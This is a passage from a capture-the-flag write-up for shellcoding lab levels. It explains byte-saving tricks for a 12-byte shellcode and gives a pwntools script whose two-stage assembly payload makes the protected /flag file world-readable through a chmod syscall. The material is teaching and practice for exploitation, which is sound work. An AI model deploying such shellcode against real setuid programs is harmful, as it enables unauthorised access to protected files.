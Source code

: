 Get in your home directory `~`, and from there create a symlink with `ln -s /flag f`. Now run the script with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> In this level the shellcode has to be just 12 bytes. Starting from the shellcode of **level8** that is 18 bytes long, we can do some optimisations:
>
> - Using `push 7` (coded into `6a 07`) instead of `push 0777` (coded into `68 ff 01 00 00`) saves us 3 bytes
> - For the file path, using `push 0x66` (coded into `6a 66`) instead of `push 0x67616c66` (coded into `68 66 6c 61 67`) saves us 3 bytes.
>
> So now our shellcode is 12 bytes long, but now we have saved in the stack the path "**f**", and not "**flag**" anymore. So in order to execute it we make a symlink from the home directory which links the file **f** with **/flag**.
>
> One change from the **level8** script is that we're not using `cwd="/"` anymore because our symlink is in `~` and not from the root folder anymore. Furthermore we cannot create symlinks in the root directory as we do not have the permissions to do so.

<div alt="page-break" class="page-break"></div>

## Level14

> **From the challenge description**: Reading 0x6 bytes from stdin.

```python
from pwn import *
import subprocess

file = "/challenge/babyshell_level14"
context.update(arch="x86-64", encoding="latin")

shellcode = '''
    push rdx
    pop rsi

    push rax
    pop rdi
    syscall

	.rept 6
		nop		/* 6 nops */
	.endr

	/* second part of shellcode */
    mov rax, 90
    lea rdi, [rip+flag]
    mov rsi, 0777
    syscall

    mov rax, 60
    syscall

flag:
    .asciz "/flag"
'''
shellcode = asm(shellcode)

process = subprocess.Popen([file], stdin=subprocess.PIPE)
process.communicate(shellcode)
```

